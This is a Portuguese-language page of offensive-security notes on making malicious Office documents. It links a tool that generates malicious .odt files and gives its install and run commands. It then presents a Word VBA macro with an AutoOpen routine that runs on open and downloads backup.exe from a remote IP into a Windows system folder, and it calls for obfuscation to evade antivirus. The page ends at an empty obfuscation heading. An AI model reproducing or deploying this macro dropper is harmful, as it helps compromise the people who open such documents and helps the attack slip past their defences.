 OfficeDocs
========================
Podemos gerar alguns documentos maliciosos com ferramentas tambem, por exemplo:

## Automatizado

### Badodt

Nesse link podemos encontrar uma das ferramentas. Devemos nos atentar ao detalhe da extensao do documento (.odt)

<https://github.com/rmdavy/badodf.git>

Necessaria a instalacao da dependencia:

    pip install ezodf

    python badodt.py

![qownnotes-media-qkAioG](../../../media/qownnotes-media-qkAioG.png)

## Manual

Para criar manualmente esses arquivos, podemos fazer da seguinte maneira. Abra o Word. 

Exibir->Macros -> Criar

**Certifique-se de que o nome da funcao seja AutoOpen, dado que ela executara automaticamente quando o arquivo for aberto pelo usuario.**

    Sub AutoOpen()
    End Sub

Alguns exemplos de codigos:

```
Private Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As Long, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As Long) As Long

Private Declare PtrSafe Function WinExec Lib "kernel32" ( _
    ByVal lpCmdLine As String, _
    ByVal uCmdShow As Long) As Long

Sub AutoOpen()
    URLDownloadToFileA 0, "http://10.8.1.121/backup.exe", "C:\Windows\system32\spool\drivers\color\backup.exe", 0, 0
End Sub
```

Nenhuma dessas opcoes acima sao ofuscadas e provavel que sejam pegas por AVs.

Para isso, devemos utilizar tecnicas de ofuscacao pra evitar a deteccao e delecao dos antivirus do nosso artefato.

## Ofuscacao